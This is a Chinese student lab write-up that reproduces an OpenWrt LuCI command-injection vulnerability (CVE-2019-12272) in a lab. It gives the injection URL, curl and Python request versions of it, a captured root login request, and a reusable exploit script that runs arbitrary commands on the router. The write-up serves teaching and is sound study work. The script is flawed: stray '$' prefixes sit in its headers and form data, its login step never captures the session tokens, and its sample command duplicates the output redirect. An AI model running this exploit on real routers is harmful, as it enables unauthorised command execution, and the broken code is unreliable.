


# 实验四 移动通信安全概述
- [实验四 移动通信安全概述](#实验四-移动通信安全概述)
  - [实验环境](#实验环境)
  - [实验流程](#实验流程)
    - [CVE-2019-1227漏洞环境安装](#cve-2019-1227漏洞环境安装)
    - [漏洞复现](#漏洞复现)
    - [漏洞利用](#漏洞利用)
      - [代码](#代码)
      - [关键参数的获取](#关键参数的获取)
      - [代码编写](#代码编写)
  - [参考](#参考)
## 实验环境

- Kali 2020.3
- WSL2 Ubuntu 20.04 Server
- OpenWrt 15.05.1

## 实验流程

### CVE-2019-1227漏洞环境安装

安装代码与[第一章实验代码](https://github.com/CUCCS/2021-mis-public-LyuLumos/blob/ch0x01/ch0x01/code/setup-vm.sh)相同，仅需更改 `OpenWrt版本号` 与 `下载地址`。使用 `WSL2` 运行。



其余配置同 [第一章实验OpenWrt环境](https://github.com/CUCCS/2021-mis-public-LyuLumos/tree/ch0x01/ch0x01#openwrt%E8%99%9A%E6%8B%9F%E6%9C%BA%E7%9A%84%E5%AE%89%E8%A3%85)，非实验重点在此略过。


### 漏洞复现

先使用管理员账号登录 LuCI ，再使用浏览器访问
`
http://192.168.189.189/cgi-bin/luci/;stok=6b45a6138759feb4cff4f0722d2ec0cb/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)
`
触发漏洞，再访问 `http://192.168.189.189/cmd.txt` 获取上一步命令执行的结果。


### 漏洞利用

#### 代码
<!-- ```bash
find -name cmd.txt
rm ./www/cmd.txt
``` -->

通过 Chrome 浏览器开发者工具的 「Copy as curl」 功能，将漏洞复现请求复制为 `curl` 命令 ，然后通过第三方网站 将 `curl` 命令转换为 `Python requests` 代码 ，再稍加改动添加继续访问 `/cmd.txt` 并打印服务器响应，得到示例如下：

（我使用的浏览器为 `Microsoft Edge 90.0.818.62 (官方内部版本) (64 位)`，选择命令为 「Copy as cURL (bash)」）

```bash
curl 'http://192.168.189.189/cgi-bin/luci/;stok=6b45a6138759feb4cff4f0722d2ec0cb/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.62' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7' \
  -H 'Cookie: sysauth=c0f9a58c63c6811f85d67df275511138' \
  --compressed \
  --insecure
```



转换后的代码长这样：

```python
import requests

cookies = {
    'sysauth': 'c0f9a58c63c6811f85d67df275511138',
}

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.62',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

response = requests.get('http://192.168.189.189/cgi-bin/luci/;stok=6b45a6138759feb4cff4f0722d2ec0cb/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)', headers=headers, cookies=cookies, verify=False)
```

#### 关键参数的获取

我们前文中 `stok`、`cookies[sysauth]`等参数都需要再模拟一次登录才能获取。我们使用 `Burp Suite` 进行抓包，使用「Copy as curl command」命令得到结果。

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 192.168.189.189' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://192.168.189.189/cgi-bin/luci' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 39' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    --data-binary $'luci_username=root&luci_password=123456' \
    $'http://192.168.189.189/cgi-bin/luci'
```

再以相同的方式在第三方网站中转换。

```python
import requests

headers = {
    '$Host': '192.168.189.189',
    '$User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
    '$Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    '$Accept-Language': 'en-US,en;q=0.5',
    '$Accept-Encoding': 'gzip, deflate',
    '$Referer': 'http://192.168.189.189/cgi-bin/luci',
    '$Content-Type': 'application/x-www-form-urlencoded',
    '$Content-Length': '39',
    '$Connection': 'close',
    '$Upgrade-Insecure-Requests': '1',
}

data = '$luci_username=root&luci_password=123456'

response = requests.post('$http://192.168.189.189/cgi-bin/luci', headers=headers, data=data, verify=False)
```

#### 代码编写

代码编写的核心思想就是使代码看起来「工具化」，减少硬编码。

```python
#!/usr/bin/env python

import argparse
import requests


class CVE_2019_12272:
    def __init__(self, args):
        self.host = args.host
        self.username = args.username
        self.password = args.password
        self.sysauth = ''
        self.stok = ''
        self.command = args.command

        self.headers = {
            '$Host': self.host,
            '$User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
            '$Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            '$Accept-Language': 'en-US,en;q=0.5',
            '$Accept-Encoding': 'gzip, deflate',
            '$Referer': 'http://{host}/cgi-bin/luci'.format(host=self.host),
            '$Content-Type': 'application/x-www-form-urlencoded',
            '$Content-Length': '39',
            '$Connection': 'close',
            '$Upgrade-Insecure-Requests': '1',
        }

    def login(self):
        data = '$luci_username={username}&luci_password={passwd}'.format(username=self.username, passwd=self.password)
        url = self.headers['$Referer']
        response = requests.post(url, headers=self.headers, data=data, verify=False)
        # print(response)

    def shell(self):
        url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0$({cmd}%3ecmd.txt)'.format(
            host=self.host, stok=self.stok, cmd=self.command)
        response = requests.get(url, headers=self.headers, cookies={'sysauth':self.sysauth}, verify=False)
        # print(response)

    def output(self):
        try:
            url = 'http://{host}/cmd.txt'.format(host=self.host)
            response = requests.get(url)
            print(response.content.decode())
        except:
            print("Error.")


def run():
    parser = argparse.ArgumentParser(description='只是为了看着高级点')
    requiredNames = parser.add_argument_group('Required Named Arguments')
    requiredNames.add_argument('-a', '--host', help='ip host', required=True)  # -h 被--help占用
    requiredNames.add_argument('-u', '--username', help='username', required=True)
    requiredNames.add_argument('-p', '--password', help='password', required=True)
    requiredNames.add_argument('-c', '--command', help='command', required=True)
    args = parser.parse_args()
    temp = CVE_2019_12272(args)
    temp.login()
    temp.shell()
    temp.output()


if __name__ == '__main__':
    run()
```

在命令行里面调用

```bash
# argparse会把传递给它的选项视作为字符串，所以某些参数不加引号也可以
python main.py -a 192.168.189.189 -u root -p 123456 -c 'ifconfig%3ecmd.txt'
```


## 参考

- [Python - argparse - 命令行选项、参数和子命令解析器](https://docs.python.org/zh-cn/3/library/argparse.html)